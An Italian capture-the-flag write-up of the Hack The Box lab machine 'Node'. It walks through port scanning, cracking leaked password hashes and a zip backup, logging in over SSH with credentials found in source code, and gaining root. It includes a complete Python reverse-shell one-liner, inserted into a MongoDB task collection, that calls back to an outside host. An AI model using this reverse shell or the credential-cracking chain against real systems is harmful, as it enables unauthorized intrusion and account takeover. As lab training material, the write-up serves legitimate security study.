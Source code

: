 # Node

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.58
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.58
Host is up (0.061s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
| hadoop-tasktracker-info:
|_  Logs: /login
|_http-title: MyPlace
| hadoop-datanode-info:
|_  Logs: /login
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (89%), Android 4.1.1 (89%), Linux 3.10 - 4.11 (89%), Linux 3.12 (89%), Linux 3.13 (89%), Linux 3.13 or 4.2 (89%), Linux 3.16 (89%), Linux 3.16 - 4.6 (89%), Linux 3.18 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Innanzitutto, vedo cosa c'è sulla porta 3000:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-1.png" />
</p>

Ispezionando la pagina sorgente trovo questo:

```text
<script type="text/javascript" src="vendor/jquery/jquery.min.js"></script>
<script type="text/javascript" src="vendor/bootstrap/js/bootstrap.min.js"></script>
<script type="text/javascript" src="vendor/angular/angular.min.js"></script>
<script type="text/javascript" src="vendor/angular/angular-route.min.js"></script>
<script type="text/javascript" src="assets/js/app/app.js"></script>
<script type="text/javascript" src="assets/js/app/controllers/home.js"></script>
<script type="text/javascript" src="assets/js/app/controllers/login.js"></script>
<script type="text/javascript" src="assets/js/app/controllers/admin.js"></script>
<script type="text/javascript" src="assets/js/app/controllers/profile.js"></script>
<script type="text/javascript" src="assets/js/misc/freelancer.min.js"></script>
```

La pagina http://10.10.10.58:3000/assets/js/app/controllers/home.js risulta essere interessante:

```text
var controllers = angular.module('controllers');

controllers.controller('HomeCtrl', function ($scope, $http) {
  $http.get('/api/users/latest').then(function (res) {
    $scope.users = res.data;
  });
});
```

Visito quindi la pagina http://10.10.10.58:3000/api/users/:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-2.png" />
</p>

Provo ad utilizzare dei tool online per crackare le password:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-3.png" />
</p>

Così scopro le seguenti password:
  * tom: **spongebob**
  * mark: **snowflake**
  * myP14ceAdm1nAcc0uNT: **manchester**

Provo ad entrare con l'account _myP14ceAdm1nAcc0uNT_:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-4.png" />
</p>

Scarico il file di backup e provo a decodificarlo nel seguente modo:

```text
cat myplace.backup | base64 --decode > myplace-decoded.backup
```

Il risultato è un file zip protetto da una password. Provo ad utilizzare quindi il comando _fcrackzip_:

```text
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace-decoded.backup
```

La password del file è **magicword**!

Dopo aver passato del tempo ad ispezionare i file ottenuti, scopro le credenziali dell'utente _mark_ nel file _app.js_:

```text
const url = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
```

## Exploitation

Provo ad accedere tramite ssh con le credeniali appena ottenute:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-5.png" />
</p>

Sono dentro ma non ho i premessi per leggere il file user.txt. Quindi trasferisco il file _LinEnum.sh_ attraverso un server http ed avvio lo script.

Dal risultato della scansione emerge la presenza di mongodb sulla porta 27017. Provo quindi ad accedere al db utilizzando le credenziali dell'utente _mark_:

```text
mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler
```
**Riesco ad accedere!**

Scopro che esiste una collezione chiamata scheduler e che posso aggiungere un task contenente una reverse shell:

```text
db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.11\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})
```

Avvio quindi avvio un listener e ottengo la shell:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-6.png" />
</p>

## Privilege Escalation

Ora bisogna capire come diventare root.

Lanciando il comando _id_ ottengo il seguente output:

```text
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
```

Quindi ritorno sul risultato dello script _LinEnum_ e scopro che c'è un file che potrebbe essere sfruttato, ovvero _/bin/usr/bin/backup_. Inoltre, all'interno del file _/var/www/myplace/app.js_ scopro delle informazioni interessanti:

```text
[...]
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d023016710
4d474';
[...]
app.get('/api/admin/backup', function (req, res) {
    if (req.session.user && req.session.user.is_admin) {
      var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
[...]
```

La prima è la chiave _backup_key_ e la seconda è il modo attraverso il quale è possibile lanciare il file backup.

Provo quindi ad eseguire questo comando:

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp > backup_test.txt
```

Il risultato è una stringa in base 64, quindi provo a fare la decodifica:

```text
cat backup_test.txt | base64 --decode > backup_test_decoded.txt
```

Ottengo un file zip e provo ad estrarne il contenuto:

```text
Archive:  test-decoded
   creating: tmp/
   creating: tmp/systemd-private-668dc95e5f5945b897532b0ae5e207b1-systemd-timesyncd.service-CwnioT/
   creating: tmp/systemd-private-668dc95e5f5945b897532b0ae5e207b1-systemd-timesyncd.service-CwnioT/tmp/
[test-decoded] tmp/test password:
 extracting: tmp/test                
   creating: tmp/.Test-unix/
  inflating: tmp/LinEnum.sh          
   creating: tmp/.XIM-unix/
   creating: tmp/vmware-root/
   creating: tmp/.X11-unix/
   creating: tmp/.ICE-unix/
   creating: tmp/.font-unix/
  inflating: tmp/pspy64
```

Provo ad effettuare la decodifica:

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /root > backup_root.txt
```

```text
cat backup_root.txt | base64 --decode > backup_root_decoded.txt
```

Passo il file sulla mia macchina e utilizzo _7z_, ottenendo questo:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-7.png" />
</p>

<p align="center">
  .........................................................................
</p>

Prima di andare avanti su questa strada provo a fare un check sulla versione del kernel in uso e scopro, tramite _searchsploit_, che è vulnerabile ed è possibile effettuare privilage escalation.

Scarico il file e lo trasferisco alla macchina node. Seguo i passaggi e divento root!

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-8.png" />
</p>
